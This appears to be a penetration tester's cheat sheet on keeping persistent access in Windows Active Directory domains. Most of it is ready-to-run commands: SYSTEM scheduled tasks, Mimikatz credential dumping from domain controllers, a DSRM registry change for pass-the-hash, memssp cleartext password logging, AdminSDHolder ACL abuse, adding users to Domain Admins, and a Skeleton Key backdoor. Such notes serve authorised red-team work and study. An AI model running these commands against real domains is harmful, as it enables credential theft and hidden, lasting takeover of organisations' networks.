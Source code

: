 # Persistence

### Scheduled Task

```text
schtasks /create  /tn "xct" /ru "SYSTEM" /tr "c:\temp\xct.exe" /sc DAILY
schtasks /run /tn "xct"
schtasks /query /tn "xct" /FO list /v
schtasks /delete /tn "xct" /f
```

### WMI Subscriptions \(Covenant\)

Run "PersistWMI", this will execute along another program. E.g. the victim opens chrome our persistence calls back.

### SRM

Directory Services Restore Mode Password only needed on promotion to DC, rarely used and changed, so we either obtain or change it:

```bash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <dc>
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <dc>
# Compare hashes, first one is DSRM
# We can pth into the dc with the ntlm hash of the dsrm, but first we have to change his logon behaviour
Enter-PSSession -Computername <dc>
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD
# Pth into it
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain> /user:Administrator /ntlm:<hash> /run:powershell.exe"'
```

### Custom SSP

Security Support Provider, with mimikatz, mimilib.dll, which logs all passwords in cleartext:

```bash
Invoke-Mimikatz -Command '"misc::memssp"'
```

### Admin-SD Holder

Adds user to domain admin group \(PowerView\):

```bash
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <username> -Rights All -Verbose
$session = New-PSSession -ComputerName <dc>
Invoke-Command -FilePath .\Invoke-SDPropagator -Session $session
Enter-PSSession -Session $session
```

### Add user to domain admins

```bash
Add-DomainGroupMember -Identity 'Domain Admins' -Members <user> -Verbose
```

### Skeleton Key

```bash
# This lets you log into every account with the password "mimikatz", you should compile it yourself and change that probably. You might also need to remove process protection before running it
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <name>
```

### AppInit DLLs

{% embed url="https://pentestlab.blog/2020/01/07/persistence-appinit-dlls/" %}

### NetSH Persistence

{% embed url="https://3gstudent.github.io/3gstudent.github.io/Netsh-persistence/" %}

### Universal Password Backdoors with Frida

{% embed url="https://sensepost.com/blog/2019/recreating-known-universal-windows-password-backdoors-with-frida/" %}




